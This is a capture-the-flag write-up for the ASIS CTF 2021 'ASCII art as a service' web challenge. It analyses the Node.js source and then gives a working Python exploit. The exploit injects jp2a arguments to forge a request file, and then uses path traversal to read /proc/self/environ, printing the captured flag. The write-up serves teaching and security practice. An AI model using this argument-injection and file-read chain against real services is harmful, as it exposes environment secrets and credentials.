




# ASISCTF 2021: ASCII art as a service (Web)


[ASIS CTF](https://asisctf.com/) is a heavyweight CTF happening since 2013. The Rating weight on CTFTime for this event is currently 89.22, which is a hardcore valuation.

The 2021 edition started on October 22, with 24 challenges for several skills.

I can speak for the web challenges, which were incredibly fun!

## The Challenge

 ```"You can convert your images to ASCII art. It is AaaS! 🤣 Go here"```



In this challenge, we are presented with a an **Ascii art as a service** form. It receives a JPG image and converts it to ASC.

It already starts with a sample image URL:

https://images.all-free-download.com/images/graphiclarge/animal_pictures_08_hd_picture_168987.jpg


And the result:



(I love ASCII art since mIRC times!)

## First Look - Client-side

It starts with a POST to **/request** endpoint with a simple JSON Payload containing the image URL:

```json
{"url":["https://images.all-free-download.com/images/graphiclarge/animal_pictures_08_hd_picture_168987.jpg"]}
```



It then redirects us to **/request/Hulq94c45UO19c7RHWXpJFxpAhbPZzMw**. This obviously random ID is the identifier of my request.

At first it receives an **"Processing..."** JSON response:

```json
{"failed":true,"result":"Processing..."}
```

The Javascript handler for the request then keeps requesting the same URL until it receives the response with the ASCII data.

```json
{"failed":false,"result":"MMMMMMMMMMMMMMWKxodkX..a-lot-of-stuff-here..NWWM\n"}
```

## Source Code Analysis

We receive the source code for the app. All of the server code is in index.js.

Let's break it in smaller pieces.

### App Setup

```javascript
const express = require('express')
const childProcess = require('child_process')
const expressSession = require('express-session')
const fs = require('fs')
const crypto = require('crypto')
const app = express()
const flag = process.env.FLAG || process.exit()
const genRequestToken = () => Array(32).fill().map(()=>"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".charAt(Math.random()*62)).join("")

app.use(express.static("./static"))
app.use(expressSession({
	secret: crypto.randomBytes(32).toString("base64"),
	resave: false,
	saveUninitialized: true,
	cookie: { secure: false, sameSite: 'Lax' }
}))
app.use(express.json())
```

#### **Summary**:
* Uses the NodeJS Express Framework (we already knew it from the response)
* Gets the Flag from the Environment Variable
* Declares a **genRequestToken**, which generates the random ID we saw earlier.
* Declares the session configuration (not useful for our solving purposes)

### The /request route

```javascript
app.post('/request',(req,res)=>{
	const url = req.body.url
	const reqToken = genRequestToken()
	const reqFileName = `./request/${reqToken}`
	const outputFileName = `./output/${genRequestToken()}`

	fs.writeFileSync(reqFileName,[reqToken,req.session.id,"Processing..."].join('|'))
	setTimeout(()=>{
		try{
			const output = childProcess.execFileSync("timeout",["2","jp2a",...url])
			fs.writeFileSync(outputFileName,output.toString())
			fs.writeFileSync(reqFileName,[reqToken,req.session.id,outputFileName].join('|'))
		} catch(e){
			console.log(e);
			fs.writeFileSync(reqFileName,[reqToken,req.session.id,"Something bad happened!"].join('|'))
		}
	},2000)
	res.redirect(`/request/${reqToken}`)
})
```

#### **Summary**:
* Gets the url from the JSON body
* Generates then random token for our request
* Declares a Request and an Output File Name
* Writes the **Processing...** status

This is important: it saves our request in a file, with the token name in the format:

```
<TOKEN>|<SESSION_ID>|<STATUS>
```

While running it locally, I got this example:

```
z4fxc0z9I05ZLgSTxUF4IM3LHV1UnXQR|Tej5L70Hl3d_5nWQGjfzXnMi1IP5HMV2|Processing...
```

* Calls the Linux timeout command, using the jp2a command. 
    * The [timeout](https://man7.org/linux/man-pages/man1/timeout.1.html) command calls other commands with a maximum time restriction. In this case, 2 seconds.
    * The [jp2a](https://github.com/Talinx/jp2a) is the tool which converts the JPG image to ASCII, making the magic happen.
    * The parameter for jp2a is the URL we sent

**There is a weakness here:** We can inject parameters on this command!
The challenge made it easier for us: the URL in the request is already an array, so we can send more than just the URL string.
More on that later.

* After running de jp2a command, it writes the ascii art result in the file (./output/newRandomID).
* Writes the generated file name in the request file:

Format:
```
<TOKEN>|<SESSION_ID>|<OUTPUT FILE NAME>
```

Example:
```
z4fxc0z9I05ZLgSTxUF4IM3LHV1UnXQR|Tej5L70Hl3d_5nWQGjfzXnMi1IP5HMV2|./output/RR0TWIFwIsf6vU3go8cOxuDbrmV1vLFj
```

This finishes the request processing.
It uses this file (later) to know where to find the ascii art.

* In the case of error, it writes "Something bad happened!" in this same status.

### The /request/:ID route

```javascript
app.get("/request/:reqtoken",(req,res)=>{
	const reqToken = req.params.reqtoken
	const reqFilename = `./request/${reqToken}`
	var content
	if(!/^[a-zA-Z0-9]{32}$/.test(reqToken) || !fs.existsSync(reqFilename)) return res.json( { failed: true, result: "bad request token." })

	const [origReqToken,ownerSessid,result] = fs.readFileSync(reqFilename).toString().split("|")

	console.log('ownerSessid: ' + ownerSessid)

	if(req.session.id != ownerSessid) return res.json( { failed: true, result: "Permissions..." })
	if(result[0] != ".") return res.json( { failed: true, result: result })

	try{
		content = fs.readFileSync(result).toString();
		
	} catch(e) {
		console.log("Something bad happened!");
		console.log(e);
		console.log();
		return res.json({ failed: false, result: "Something bad happened!" })
	}

	res.json({ failed: false, result: content })
	res.end()
})
```

#### **Summary**:
* In this route, the app receives the specific token used to receive the ascii art result (the one from the loop we saw at the start).
* It uses the request ID to find the filename with the same ID inside the "request" directory.
* The token is filtered for a RegExp. Only Alphanumeric chars... no path traversal for you.
* It reads and parses the file, which is in the format discussed earlier:

```
<TOKEN>|<SESSION_ID>|<STATUS OR OUTPUT FILE NAME>
```

* It also filters the session ID, to avoid us reading some other user result (no poking in your  friends CTF game).
* It also checks that the file name starts with a ".". If it's not a ".", just send the result (Possibly a status, like "Processing...").
* After all that filtering, it just reads the file and sends to us (hummmmmmmmm).
* If it can't read the file (like when it is still processing), just return the message "Something bad happened!".

When the server just reads some file (without much validation) and sends to us, our minds automatically think on [LFI - Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).


### The rest

```javascript
app.get("/flag",(req,res)=>{
	if(req.ip == "127.0.0.1" || req.ip == "::ffff:127.0.0.1") res.json({ failed: false, result: flag })
	else res.json({ failed: true, result: "Flag is not yours..." })
})

function clearOutput(){
	try{
		childProcess.execSync("rm ./output/* ./request/* 2> /dev/null")
	} catch(e){}
	setTimeout(clearOutput,120e3)
}
```

#### **Summary**:
* This /flag endpoint was useless for my solution, so I'll just ignore it. If you used it in your solution, please tell me on Twitter :)
* The clearOutput deletes both the request and output files every 2 minutes. It's saving earth resources. #begreen!

## Let's play a game


So far we got a possible command injection when inserting data.

My first (stupid) try was injecting a pipe and bash commands but.. we're not on bash here. Won't work.

I also thought about injecting parameters on the **timeout** command, to have more options on the Linux side, but it would only work if I could inject before the jp2a. No good.

But we can still put strings after the jp2a.

Let's first play with the original (innocent) command called by the app.



(ASCII art is so nice!)

Ok, so let's take a look at jp2a parameters.

I'll just keep the key parts here, for simplicity.
(I investigated some other parameters, without success)

```text
$ jp2a --help
jp2a 1.0.9
Copyright 2006-2016 Christian Stigen Larsen
and 2020 Christoph Raitzig
Distributed under the GNU General Public License (GPL) v2.

Usage: jp2a [ options ] [ file(s) | URL(s) ]

Convert files or URLs from JPEG format to ASCII.

OPTIONS
...
  -d, --debug       Print additional debug information.
...
      --html        Produce strict XHTML 1.0 output.
...
      --html-title=...  Set HTML output title
...
      --output=...  Write output to file.
...

Project homepage on https://github.com/Talinx/jp2a
Report bugs to <chris-r@posteo.net>
```

We send a URL, but we could just send a local file!
At first, I tought the solution would be somehow generating ASCII art from the /flag endpoint, using SSRF but.. the /flag returns only text. I didn't find a way to do it (maybe there is).
I also don't know about any local file that could help. But let's move on.

* The **--html** is interesting: it generates a fixed HTML output with the ASCII image. No direct result so far.
* The **--html-title** is even more interesting: I can put a string from my control here. But even with this controlled HTML, I don't get near the flag.
* The **--output=** is the holy grail. We can save the result ascii file inside the server, on a path of our control!!

Let's make a simple test of it:

```html
$ timeout 5 jp2a --html --html-title="MY CONTROLLED STRING" --output=/tmp/asis_output.html /tmp/asis.jpg
$ 
$ head -10 /tmp/asis_output.html

<?xml version='1.0' encoding='ISO-8859-1'?>
<!DOCTYPE html PUBLIC '-//W3C//DTD XHTML 1.0 Strict//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd'>
<html xmlns='http://www.w3.org/1999/xhtml' lang='en' xml:lang='en'>
<head>
<title>MY CONTROLLED STRING</title>
<style type='text/css'>
body {
background-color: black;
}
.ascii {
$
```

Good but... how the hell this takes us near the Flag?

## Hacktion Plan

Things we have so far:
* We can inject interesting parameters on j2pa.
* We can control the order of the parameters after the "j2pa" string.
* We can write jp2a output anywhere in the system (if the app user has privileges).
* We can control the written file name.
* We can inject a controlled string in the file.

Now we can connect this with the previous finding: we can write a fake request on the request directory!

The request dir contains request files with a simple format.

```
<TOKEN>|<SESSION_ID>|<STATUS OR OUTPUT FILE NAME>
```

If we can forge a file like that and request using the /request/:ID route, we can get our LFI!

Let's check each part of the file:
* The Token is not validated when reading the file.. it can be any garbage :)
* The Session ID is part of our session cookie - connect.sid - we just received if from the server.
e.g.

s%3A**Tej5L70Hl3d_5nWQGjfzXnMi1IP5HMV2**.
YJrAvk995JtNCl714an3cB72qi01HuZq6Q2GJUu9IsU

* The last part is the file name that the server will send to us, without any validation. The game is on.

Using our new jp2a parameters, we can create an HTML output that simulates this format, using the **--html-title** to inject our pipe-separated payload and the **--output=** to add it to the request directory!

Let's make a local experiment, from our previous command.

```html
$ timeout 5 jp2a --html --html-title="TOKEN|SESSION_ID|FILE_NAME" --output=./request/asis_output.html /tmp/asis.jpg
$ 
$ head -10 ./request/asis_output.html

<?xml version='1.0' encoding='ISO-8859-1'?>
<!DOCTYPE html PUBLIC '-//W3C//DTD XHTML 1.0 Strict//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd'>
<html xmlns='http://www.w3.org/1999/xhtml' lang='en' xml:lang='en'>
<head>
<title>TOKEN|SESSION_ID|FILE_NAME</title>
<style type='text/css'>
body {
background-color: black;
}
.ascii {
$
```

Nice! if I'm inside the app dir (like the real app will be), I can output the file in the request folder.

Let's think of our current scenario and validations to bypass:

* The generated filename is "asis_output.html", which won't pass the token format validation (regex). 
    * Easy bypass: we can control the file name.
* When spliting the (entire html) file by pipes, we have:
    1. TOKEN: From **"<?xml "** to **"TOKEN"** - No problem. Token is not validated.
    2. SESSION_ID: Just **"SESSION_ID"** - Only replace with the session ID we got.
    3. FILE NAME: From **"FILE_NAME</title>"** to **"</html>"** (end of document!) - we have some work to do here.

This is the line that reads and parses the pipe file:

```javascript
const [origReqToken,ownerSessid,result] = fs.readFileSync(reqFilename).toString().split("|")
```

This splits the entire file string in an array, where each element is a part of the file separated by the pipes. Then it sets the array values to each variable. If we have more items than variables, it just ignores the rest of the array!

If we put one more pipe in our html title, it will just ignore the rest of the file :)

Let's go for another local round, now simulating the server parsing:

* Generate output
```html
$ timeout 5 jp2a --html --html-title="ANY_TRASH|SESSION_ID|FILE_NAME|" --output=./request/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa /tmp/asis.jpg
$ 
$ head -10 ./request/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 
<?xml version='1.0' encoding='ISO-8859-1'?>
<!DOCTYPE html PUBLIC '-//W3C//DTD XHTML 1.0 Strict//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd'>
<html xmlns='http://www.w3.org/1999/xhtml' lang='en' xml:lang='en'>
<head>
<title>ANY_TRASH|SESSION_ID|FILE_NAME|</title>
<style type='text/css'>
body {
background-color: black;
}
.ascii {
$ 
```

* Simulate server

```javascript
$ node
Welcome to Node.js v14.12.0.
Type ".help" for more information.

> const reqToken = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa';
undefined
> reqToken
'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'

> const reqFilename = `./request/${reqToken}`
undefined
> reqFilename
'./request/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'

> if(!/^[a-zA-Z0-9]{32}$/.test(reqToken) || !fs.existsSync(reqFilename)) { console.log('FILTER FAILED'); } else { console.log('PASSED'); }
PASSED

undefined
> const [origReqToken,ownerSessid,result] = fs.readFileSync(reqFilename).toString().split("|");
undefined
> ownerSessid
'SESSION_ID'

> result
'FILE_NAME'

>
```

It worked fine! We bypassed the simulated filters and the variables where injected with our poisoned values!

## Exploiting

Now that we have our PoC, let's make it happen in the real webapp. And I think it's simpler to automate it than showing it with curl / chrome.

[Exploit](https://github.com/Neptunians/asisctf-2021-writeup-ascii_art_as_a_service/blob/main/exploit.py)

Let's break the exploit in smaller pieces:

```python
# .. ignoring imports for simplicity
target = 'http://asciiart.asisctf.com:9000'

# Get Session ID (index does not set session. Go for /flag at first)
s = requests.Session()
s.get(f'{target}/flag')

session_cookie = s.cookies['connect.sid']
session_id = session_cookie.split('.')[0][4:]

print('Session ID: "{}"'.format(session_cookie.split('.')[0][4:].strip()))
```

* We make a request to /flag, just to get the session cookie (they will not give you the flag)
    * The main page does not set the cookie :D
* We decode the connect.sid cookie to get the session id

```python
# ... ignoring headers for simplicity
env_file = '../../../../../../../../../../proc/self/environ'
title_payload = f'--html-title="anyshit|{session_id}|{env_file}|hello'
attack_file = 'neptunian0'+'n'*22
output_paload = f'--output=./request/{attack_file}'
```

* Set **env_file** (file name) for the target of our LFI: since the flag comes from the environment variables, we can read it from the **/proc/self/environ** (environments from the current process).
    * The file name validation starts with a ".", so let's go with path traversal.
* The **title_payload** is our piped payload (the string to inject in the file)
    * It includes the file name (LFI) of the previous step.
* The **attack_file** is the request file name, following the regex pattern.
* The **output_paload** is the file output which we will inject.

```python
data = {
    "url": [
        "https://images.all-free-download.com/images/graphiclarge/animal_pictures_08_hd_picture_168987.jpg",
        "--html",
        title_payload,
        output_paload
    ]
}
```

* **data** is the JSON body of the post
    * As planned, we just inject the parameters in the array using the payloads of the previous step.

```python
response = s.post(f'{target}/request', headers=headers, json=data, verify=False)

print(response.status_code)
print(response.text)
```

* We made all the setup before. Just send it to the /request route.
    * Print the first request status (Usually "Processing...")

```python
time.sleep(2)

response = s.get(f'{target}/request/{attack_file}')

print(response.status_code)
print(response.text)
```

* Let's wait 2 seconds for our payload to work and then get the result of our fake inject using the invented ID (**attack_file**).

```python
env_result = json.loads(response.text)['result']

print(env_result)
position = env_result.find("FLAG=")
print('\n\n', env_result[position:position+100])
```

* Let's parse the result and find the flag inside it :)


```bash
$ python exploit.py 
Session ID: "BDRUX_2OcjxpR4rG1aeHlgNbc84yLnC3"
200
{"failed":true,"result":"Processing..."}
200
{"failed":false,"result":"HOSTNAME=45527e0e03b4\u0000HOME=/home/www\u0000TERM=xterm\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000DEBIAN_FRONTEND=noninteractive\u0000PWD=/app\u0000FLAG=ASIS{ascii_art_is_the_real_art_o/_a39bc8}\u0000NODE_ENV=production\u0000"}
HOSTNAME=45527e0e03b4HOME=/home/wwwTERM=xtermPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binDEBIAN_FRONTEND=noninteractivePWD=/appFLAG=ASIS{ascii_art_is_the_real_art_o/_a39bc8}NODE_ENV=production

FLAG=ASIS{ascii_art_is_the_real_art_o/_a39bc8}NODE_ENV=production
```

Gotcha!

```
ASIS{ascii_art_is_the_real_art_o/_a39bc8}
```

## References

* ASISCTF: https://asisctf.com/
* CTF Time Event: https://ctftime.org/event/1415
* Linux Timeout Command: https://man7.org/linux/man-pages/man1/timeout.1.html
* jp2a: https://github.com/Talinx/jp2a
* Repo with the artifacts discussed here: https://github.com/Neptunians/asisctf-2021-writeup-ascii_art_as_a_service
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)